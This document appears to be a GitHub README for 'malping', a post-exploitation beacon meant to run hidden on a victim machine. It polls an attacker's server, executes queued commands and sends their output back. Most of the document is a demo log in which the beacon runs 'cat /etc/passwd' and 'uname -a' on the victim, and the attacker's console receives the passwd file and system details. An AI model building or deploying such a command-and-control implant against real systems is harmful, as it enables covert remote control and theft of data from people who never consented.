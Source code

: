 # malping

A simple implementation of a post-exploitation beacon.

## overview

`malping.py` is the script that runs on the victim machine, theoretically
hidden or obscured in some way. Based on arguments, it sends a ping of sorts
to a specified ip (attacker) at a desired frequency, where `mp_server.py` may
or may not be running. As soon as `mp_server.py` is executed, `malping.py` will
be able to connect to the server and essentially ask for a command to execute, based
on arguments passed to `mp_server.py`. `malping.py` will obediently execute the
command and send the stdout back to the server.

## demo

The attacker has gotten access to the victim's machine and downloaded and executed malping. He/she does not have the server running at this point, but it's ok, malping waits patiently. Eventually the attacker is ready and starts the server, telling malping to execute the commands, "cat /etc/passwd" and "uname -a". The next time malping pings the server it sees the commands queued to be executed and does so, one at a time. When all the commands have been executed, the server stops, but malping keeps listening.

---

Victim's Machine (5.4.3.2):

```
$ ./malping.py 1.2.3.4 5                     
[+] Malping started with delay of 5 seconds.
[!] (2014-05-07 21:52:29.475144) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:34.475740) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:39.475874) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:44.477319) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:49.478246) Could not connect to server. Waiting...
[+] (2014-05-07 21:52:54.480326) Executing "cat /etc/passwd"
[+] (2014-05-07 21:52:59.489891) Executing "uname -a"
[!] (2014-05-07 21:53:04.496380) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:09.497329) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:14.498801) Could not connect to server. Waiting...
```

Attacker's Machine (1.2.3.4):

```
$ sudo ./mp_server.py "cat /etc/passwd" "uname -a"
[+] Malping server started on 80.
[i] Connected By: ('5.4.3.2', 52252) at 2014-05-07 21:52:54.480167
[+] Sending Command: cat /etc/passwd
[+] Command Stdout:
root:!:0:0::/:/usr/bin/ksh
daemon:!:1:1::/etc:
bin:!:2:2::/bin:
sys:!:3:3::/usr/sys: 
adm:!:4:4::/var/adm:
uucp:!:5:5::/usr/lib/uucp: 
guest:!:100:100::/home/guest:
nobody:!:4294967294:4294967294::/:
lpd:!:9:4294967294::/:
lp:*:11:11::/var/spool/lp:/bin/false 
invscout:*:200:1::/var/adm/invscout:/usr/bin/ksh
nuucp:*:6:5:uucp login user:/var/spool/uucppublic:/usr/sbin/uucp/uucico
paul:!:201:1::/home/paul:/usr/bin/ksh
jdoe:*:202:1:John Doe:/home/jdoe:/usr/bin/ksh
[i] Connected By: ('5.4.3.2', 52253) at 2014-05-07 21:52:59.489664
[+] Sending Command: uname -a
[+] Command Stdout:
Linux dev-server 2.6.32-100.28.5.el6.x86_64 #1 SMP Wed Feb 2 18:40:23 EST 2011 x86_64 x86_64 x86_64 GNU/Linux

[-] Finished with commands
```
